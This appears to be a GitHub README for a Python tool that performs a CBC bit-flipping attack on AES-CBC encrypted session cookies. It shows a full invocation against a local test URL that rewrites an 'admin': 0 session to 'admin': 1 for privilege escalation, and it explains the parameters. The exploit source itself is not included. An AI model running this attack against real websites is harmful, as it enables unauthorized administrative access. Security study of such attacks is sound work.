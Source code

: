 # Project description

This script uses byte reversal to attack websites that use AES-CBC mode to encrypt the session.

# Usage

Run on the command line with the necessary parameters

example:
```python
python3 cbcBitFlipping.py \
--url "http://127.0.0.1:9091/read" \
--session "76xobRieNsQtbEbN8RFt6lyzY5qChDQWRW4meH3WrL/ELv5GBB7vktl5Kb+NEkMeBK7EXXruHJvjT70mDFJWig==" \
--old '{"admin": 0, "username": "user1"}' \
--new '{"admin": 1, "username": "user1"}' \
--param filename test.txt \
--delay 0.1 \
--success-substring "File not found."
```


Enter the original session content at the --old parameter and the desired tampered session content at the --new parameter.

If necessary, enter the parameters and values you want to attach to the --param parameter.

Type the keyword included in the returned packet after successfully bypassing forensics at success-substring to make it easier for the script to identify which rollover attack was successful.

# Acknowledgments

My Computer

# Effective demonstration

<img width="947" alt="image" src="https://github.com/user-attachments/assets/24ea0366-9e65-4f89-a189-7133e885fcf8" />
